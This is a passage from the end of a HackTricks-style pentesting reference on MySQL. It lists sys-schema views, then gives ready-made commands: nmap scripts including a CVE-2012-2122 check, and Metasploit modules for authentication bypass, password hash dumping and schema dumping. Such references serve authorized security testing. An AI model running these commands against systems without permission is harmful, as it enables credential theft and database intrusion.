 x$statements\_with\_full\_table\_scans\
x$statements\_with\_runtimes\_in\_95th\_percentile\
x$statements\_with\_sorting\
x$statements\_with\_temp\_tables\
x$user\_summary\
x$user\_summary\_by\_file\_io\
x$user\_summary\_by\_file\_io\_type\
x$user\_summary\_by\_stages\
x$user\_summary\_by\_statement\_latency\
x$user\_summary\_by\_statement\_type\
x$wait\_classes\_global\_by\_avg\_latency\
x$wait\_classes\_global\_by\_latency\
x$waits\_by\_host\_by\_latency\
x$waits\_by\_user\_by\_latency\
x$waits\_global\_by\_latency

## HackTricks Automatic Commands
```
Protocol_Name: MySql    #Protocol Abbreviation if there is one.
Port_Number:  3306     #Comma separated if there is more than one.
Protocol_Description: MySql     #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for MySql
Note: |
MySQL is a freely available open source Relational Database Management System (RDBMS) that uses Structured Query Language (SQL).

https://book.hacktricks.xyz/pentesting/pentesting-mysql

Entry_2:
Name: Nmap
Description: Nmap with MySql Scripts
Command: nmap --script=mysql-databases.nse,mysql-empty-password.nse,mysql-enum.nse,mysql-info.nse,mysql-variables.nse,mysql-vuln-cve2012-2122.nse {IP} -p 3306

Entry_3:
Name: MySql
Description: Attempt to connect to mysql server
Command: mysql -h {IP} -u {Username}@localhost

Entry_4:
Name: MySql consolesless mfs enumeration
Description: MySql enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_version; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_authbypass_hashdump; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/admin/mysql/mysql_enum; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_hashdump; set RHOSTS {IP}; set RPORT 3306; run; exit' && msfconsole -q -x 'use auxiliary/scanner/mysql/mysql_schemadump; set RHOSTS {IP}; set RPORT 3306; run; exit'

```
<figure><img src="https://files.gitbook.com/v0/b/gitbook-x-prod.appspot.com/o/spaces%2F-L_2uGJGU7AVNRcqRvEi%2Fuploads%2FelPCTwoecVdnsfjxCZtN%2Fimage.png?alt=media&#x26;token=9ee4ff3e-92dc-471c-abfe-1c25e446a6ed" alt=""><figcaption></figcaption></figure>

